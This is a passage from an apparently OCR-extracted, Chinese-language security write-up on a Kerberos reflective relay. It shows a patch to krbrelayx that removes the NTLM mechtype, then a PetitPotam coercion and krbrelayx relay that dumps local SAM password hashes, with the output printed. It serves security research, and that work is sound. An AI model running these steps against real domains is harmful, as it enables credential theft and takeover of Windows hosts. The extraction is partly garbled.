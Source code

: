   
  
有趣的是，即使我们提供了 DNS 记录作为侦听器主机，并将  
krbrelayx.py   
Kerberos 通告为其身份验证协议之一，NTLM 身份验证仍会进行协商。原因很简单，可以通过 Negotiate 身份验证包的工作原理来解释：如果远程服务器同时支持 Kerberos 和 NTLM （例如 的情况  
krbrelayx.py  
），并且客户端检测到目标是当前计算机，则使用 NTLM（执行本地 NTLM 身份验证）。为了确定目标是否与客户端的计算机是同一台计算机，  
lsasrv!NegpIsLoopback  
可以使用 函数。与函数类似，它将目标名称与 localhost（计算机的 FQDN 及其主机名）进行比较。在我们的例子中，目标名称等于主机名，因此返回 true 并协商 NTLM。要强制使用 Kerberos，只需从通告的类型中删除 NTLM mechtype 即可：
```
msv1_0!SspIsTargetLocalhost
```

  
   
  

```
lsasrv!NegpIsLoopback
```

  
  

```
File: krbrelayx/lib/servers/smbrelayserver.py
156: blob['tokenOid'] = '1.3.6.1.5.5.2'
157: blob['innerContextToken']['mechTypes'].extend([MechType(TypesMech['KRB5 - Kerberos 5']),
158: MechType(TypesMech['MS KRB5 - Microsoft Kerberos 5']),
159: MechType(TypesMech['NTLMSSP - Microsoft NTLM Security Support Provider'])])
```

  
  
通过应用此补丁，中继也能正常工作！  
  

```
$ PetitPotam.py -u loki -p aloki -d ASGARD.LOCAL srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

# krbrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD: Received connection from192.168.56.13
[*] Service RemoteRegistry isin stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x2969778d862ac2a6df59a263a16adbd1
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:04e87eb3e0d31f79a461386dfe9c7500:::
user:1000:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
[*] Done dumping SAM hashes for host: srv1.asgard.local
```
